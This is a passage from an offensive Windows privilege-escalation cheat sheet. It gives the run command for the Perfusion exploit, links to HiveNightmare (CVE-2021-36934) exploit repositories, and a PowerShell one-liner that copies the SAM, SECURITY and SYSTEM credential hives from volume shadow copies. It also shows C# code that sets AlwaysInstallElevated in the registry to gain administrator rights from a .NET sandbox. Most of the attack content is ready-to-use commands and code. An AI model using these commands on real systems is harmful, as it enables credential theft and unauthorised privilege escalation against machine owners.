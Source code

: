 Potentionally vulnerable Windows versions:

* Windows 7
* Windows Server 2008 R2
* Windows 8
* Windows Server 2012

Compile into Release and exploit:

```
Cmd > .\Perfusion.exe -c cmd -i
```



### HiveNightmare

**CVE-2021–36934**

* [https://github.com/GossiTheDog/HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)
* [https://github.com/HuskyHacks/ShadowSteal](https://github.com/HuskyHacks/ShadowSteal)
* [https://github.com/FireFart/hivenightmare/blob/main/release/hive.exe](https://github.com/FireFart/hivenightmare/blob/main/release/hive.exe)
* [https://github.com/cube0x0/CVE-2021-36934](https://github.com/cube0x0/CVE-2021-36934)

PowerShell one-liner:

```
PS > powershell -c "foreach ($i in 1..10){$p='\\.\HarddiskVolumeShadowCopy{0}\windows\system32\config\' -f $i; gi $($p+'SAM'),$($p+'SECURITY'),$($p+'SYSTEM') -ErrorAction SilentlyContinue | % {cp $_.FullName $($_.BaseName+$i)}}"
```



### .NET Sandboxes

When an attacker can compile arbitrary code in privileged context but a Sandbox is in game (like in [uMod](https://umod.org/documentation/api/security)) the following approaches can be leveraged to gain admin privs:

* Registry keys manipulation.
* Deserialization [attacks](https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net).

Example #1 (Registry) - AlwaysInstallElevated:

```csharp
using Microsoft.Win32;
...
using (var hklm = RegistryKey.OpenBaseKey(RegistryHive.LocalMachine, RegistryView.Registry64))
using (var key = hklm.CreateSubKey(@"SOFTWARE\Policies\Microsoft\Windows\Installer", true))
{
	key.SetValue("AlwaysInstallElevated", 0x1, RegistryValueKind.DWord);
}

using (var hkcu = RegistryKey.OpenBaseKey(RegistryHive.CurrentUser, RegistryView.Registry64))
using (var key = hkcu.CreateSubKey(@"SOFTWARE\Policies\Microsoft\Windows\Installer", true))
{
	key.SetValue("AlwaysInstallElevated", 0x1, RegistryValueKind.DWord);
}
...
```
